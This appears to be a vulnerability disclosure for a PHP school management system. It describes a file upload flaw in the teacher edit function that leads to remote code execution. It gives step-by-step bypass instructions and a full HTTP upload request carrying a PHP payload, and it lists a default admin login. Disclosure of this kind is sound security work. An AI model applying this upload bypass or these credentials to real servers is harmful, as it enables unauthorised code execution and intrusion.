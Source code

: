 # Advanced School Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

**Vul_Author**: **Zhijie Tan**

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/all_teacher.php(RCE vulnerability exists in "edit" function of Ip/School/view/all_teacher.php)

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the "edit" function file picture upload point of the TEACHER module in the background management system. You can change the "php" suffix of "shell.php" to "png" to bypass the front-end detection, and then modify the "png" back to the original "php" by grabbing the Burp package. The "shell.php" file can be uploaded successfully after putting back the request packet.

Super Admin account password: suarez081119@gmail.com/12345

Request package for file upload：

```sql
POST /school/index.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/school/view/all_teacher.php
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------12765172874523
Content-Length: 1148

-----------------------------12765172874523
Content-Disposition: form-data; name="full_name"

Teacher 6
-----------------------------12765172874523
Content-Disposition: form-data; name="i_name"

Teacher 6
-----------------------------12765172874523
Content-Disposition: form-data; name="address"

School
-----------------------------12765172874523
Content-Disposition: form-data; name="gender"

Male
-----------------------------12765172874523
Content-Disposition: form-data; name="phone"

666-666-6666
-----------------------------12765172874523
Content-Disposition: form-data; name="email"

t6@gmail.com
-----------------------------12765172874523
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: image/jpeg

JFJF
<?php phpinfo();?>
-----------------------------12765172874523
Content-Disposition: form-data; name="c_page"

1
-----------------------------12765172874523
Content-Disposition: form-data; name="id"

15
-----------------------------12765172874523
Content-Disposition: form-data; name="do"

update_teacher
-----------------------------12765172874523--
```

The files will be uploaded to this directory \school\uploads\
![image](https://user-images.githubusercontent.com/54017627/171858116-11015cc9-cf27-48ab-a4f6-844a1d8960c8.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/171858089-10417b92-cad0-4cc9-9552-598e09ce15f3.png)


